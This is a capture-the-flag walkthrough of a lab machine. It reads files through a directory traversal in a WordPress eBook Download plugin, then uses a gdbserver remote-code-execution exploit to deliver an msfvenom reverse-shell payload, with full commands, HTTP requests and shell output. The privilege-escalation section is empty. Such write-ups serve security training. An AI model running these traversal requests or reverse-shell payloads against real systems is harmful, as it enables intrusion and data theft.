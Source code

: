 
1. Nmap reveals port 80 and 22

2. Gobuster reveals Wordpress, the first directory is /wp-content which contains plugins, inside plugins folder there is a ebook-download plugin, which searching reveals an exploit available.

````
# searchsploit ebook download
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin eBook Download 1.1 - Directory Traversal                                            | php/webapps/39575.txt
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
````

````
# cat 39575.txt 
# Exploit Title: Wordpress eBook Download 1.1 | Directory Traversal
# Exploit Author: Wadeek
# Website Author: https://github.com/Wad-Deek
# Software Link: https://downloads.wordpress.org/plugin/ebook-download.zip
# Version: 1.1
# Tested on: Xampp on Windows7

[Version Disclosure]
======================================
http://localhost/wordpress/wp-content/plugins/ebook-download/readme.txt
======================================

[PoC]
======================================
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
======================================
````

3. Try to execute the exploit
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php

4. Enumerates
````
GET /wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../etc/passwd HTTP/1.1
Host: 10.10.11.125
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Connection: close


````

5. Enumarates process
````
GET /wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../proc/$PID$/cmdline HTTP/1.1
Host: 10.10.11.125
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Connection: close


````
````
HTTP/1.1 200 OK
Date: Fri, 14 Jan 2022 01:43:04 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Transfer-Encoding: Binary
Content-disposition: attachment; filename="cmdline"
Content-Length: 232
Connection: close
Content-Type: application/octet-stream

../../../../../../proc/854/cmdline../../../../../../proc/854/cmdline../../../../../../proc/854/cmdline/bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
````
[man gdbserver](https://sourceware.org/gdb/onlinedocs/gdb/Server.html)

`gdbserver --once 0.0.0.0:1337 /bin/true`

* The --once option allows reusing the same port number for connecting to multiple instances of gdbserver running on the same host, since each instance closes its port after the first connection. 
* 0.0.0.0:1337 listen on any interface on port 1337
* /bin/true name of the program to be debugged

````
HTTP/1.1 200 OK
Date: Fri, 14 Jan 2022 01:32:20 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Transfer-Encoding: Binary
Content-disposition: attachment; filename="cmdline"
Content-Length: 234
Connection: close
Content-Type: application/octet-stream

../../../../../../proc/858/cmdline../../../../../../proc/858/cmdline../../../../../../proc/858/cmdline/bin/sh-cwhile true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
````

[man screen](https://linux.die.net/man/1/screen)
`screen -dmS root`
* -dm creates a new session but does not attach to it
* session name root

6. Exploitation 
````
# searchsploit gdbserver
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
GNU gdbserver 9.2 - Remote Command Execution (RCE)                                                   | linux/remote/50539.py
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
````

````
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 PrependFork=true -o rev.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
Saved as: rev.bin
````

````
# nc -nlvp 4444
````

````
# python3 50539.py 10.10.11.125:1337 rev.bin
[+] Connected to target. Preparing exploit
[+] Found x64 arch
[+] Sending payload
[*] Pwned!! Check your listener
````

````
# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.221] from (UNKNOWN) [10.10.11.125] 49944
id
uid=1000(user) gid=1000(user) groups=1000(user)
python3 -c "import pty; pty.spawn('/bin/bash')"
user@Backdoor:/home/user$ cat user.txt  
cat user.txt
b43f7cb5891eae348070ac16b82a3a6a
````

7. Privilege escalation
````

````



# Secrets
* FLAG_USER = b43f7cb5891eae348070ac16b82a3a6a

